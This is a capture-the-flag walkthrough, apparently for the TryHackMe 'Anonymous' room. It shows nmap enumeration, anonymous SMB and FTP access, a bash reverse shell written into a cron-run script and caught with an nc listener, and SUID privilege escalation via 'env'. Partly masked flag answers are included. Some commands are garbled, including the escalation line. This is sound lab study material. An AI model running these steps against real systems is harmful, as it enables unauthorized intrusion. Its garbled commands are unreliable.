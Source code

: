 # TryHackMe Anonymous
**Not the hacking group**

## Task-1 Pwn

* For enumeration we used nmap (*nmap -A -sV -v ip*) and got the answer for some questions below.

1. Enumerate the machine.  How many ports are open?<br>
Answer : 4

2. What service is running on port 21?<br>
Answer : ftp

3. What service is running on ports 139 and 445?<br>
Answer : smb

* For smb enumeration we will use smbclient and the command for the same is 'smbclient //ip/anonymous' and password is also 'anonymmous'. Basically we are doing anonymous login. It will give us sharename in which we can access share 'pics'. 

4. There's a share on the user's computer.  What's it called?<br>
Answer : pics

* Now we know ftp is open from nmap. Login into ftp using 'ftp ip' and then username and password is 'anonymous'. We are successfully logged in. Now type 'ls' and we see a 'scripts' directory. Type 'cd scripts' to move into that directory and again type 'ls'. We see three files. Now type 'get file_name' to get the files in your local shell. Get all the 3 files and then see the content of each file. There is a shell script named 'clean.sh'. We have to change it in order to gain access. Now type 'bash -i >& /dev/tcp/tun0 ip/8888 0>&1' in your shell script and then again go to your ftp shell.

* Now type 'append clean.sh' and simultaneously start your nc listener in another shell using 'nc -lnvp 8888'. You will see a shell in seconds. Type 'ls' and you will see a user.txt file. Now answer the below question.

**If we didn't used 'append' and instead used 'put' to upload clean.sh then we would'nt have execute permission for clean.sh in ftp shell . clean.sh is in fact a cronjob running timely. If you don't want to append then type 'push clean.sh clean.sh' which will update your clean.sh file.**

5. user.txt<br>
Answer : 90d6f992585815ff99**************

* Now type '*find / -perm -u=s 2>/dev/null*' for suid binaries. We got many result but only one of them has a valid suid. You can find the suid's on https://gtfobins.github.io/ . I searched for all the result we got from above command and landed on correct one -'env'. We have valid suid for 'env'. Now type './bin /bash/sh -p' and you will have your root access. Go into root directory and answer the below question.

6. root.txt<br>
Answer : 4d930091c31a622a7ed10f********** 

